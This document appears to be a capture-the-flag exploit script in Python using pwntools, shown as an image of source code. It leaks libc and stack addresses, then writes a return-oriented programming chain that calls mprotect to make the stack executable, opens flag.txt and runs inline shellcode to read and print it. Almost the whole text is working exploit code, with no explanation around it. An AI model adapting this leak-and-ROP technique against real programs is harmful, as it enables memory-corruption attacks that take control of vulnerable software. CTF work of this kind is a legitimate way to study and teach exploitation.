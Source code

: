 ```python
R(2)
io.recvuntil(b'hex-encoded bytes\n')
a = io.recvline().split()[::-1]
tmp = b''
for i in a:
    tmp += i

libc.address = int(tmp, 16) - libc.sym['puts']
log.info('libc: '+hex(libc.address))
W(0, p64(8)+p64(libc.sym['environ']))
R(2)
io.recvuntil(b'hex-encoded bytes\n')
a = io.recvline().split()[::-1]
tmp = b''
for i in a:
    tmp += i

retaddr = int(tmp, 16) - 0x140
log.info('stack: '+hex(retaddr))
basestack = (retaddr + 0x1be8) - ((retaddr + 0x1be8) % 0x1000) - 0x21000
log.info('base stack: '+hex(basestack))

W(0, p64(0x300)+p64(retaddr))
rop =  p64(libc.address + 0x000000000002d7dd) # pop rdi ; ret
rop += p64(basestack)
rop += p64(libc.address + 0x000000000002eef9) # pop rsi ; ret
rop += p64(0x21000)
rop += p64(libc.address + 0x00000000000d9c2d) # pop rdx ; ret
rop += p64(7)
rop += p64(libc.address + 0x00000000000448a8) # pop rax ; ret
rop += p64(10)
rop += p64(libc.address + 0x00000000000888f2) # syscall ; ret
rop += p64(libc.address + 0x000000000002d7dd) # pop rdi ; ret
rop += p64(retaddr+0x99+0x25)
rop += p64(libc.address + 0x000000000002eef9) # pop rsi ; ret
rop += p64(0)
rop += p64(libc.address + 0x00000000000d9c2d) # pop rdx ; ret
rop += p64(0)
rop += p64(libc.sym['open'])

rop += p64(libc.address + 0x00000000000448a8) # pop rax ; ret
rop += p64(retaddr+0x99)
rop += p64(libc.address + 0x0000000000119227) # mov rsi, rdx ; call rax
rop += b'\x48\x31\xFF\x48\xFF\xC7\x48\xFF\xC7\x48\xFF\xC7\x48\x31\xC0\x48\x8D\x74\x24\x30\x48\x31\xD2\xB2\x60\x0F\x05\x48\x31\xFF\x48\xFF\xC7\x48\x89\xF8\x0F\x05'
rop += b'flag.txt'
rop += p64(0)
W(2, rop)
io.interactive() # input E command with size 0 to trigger the exploit :D
```
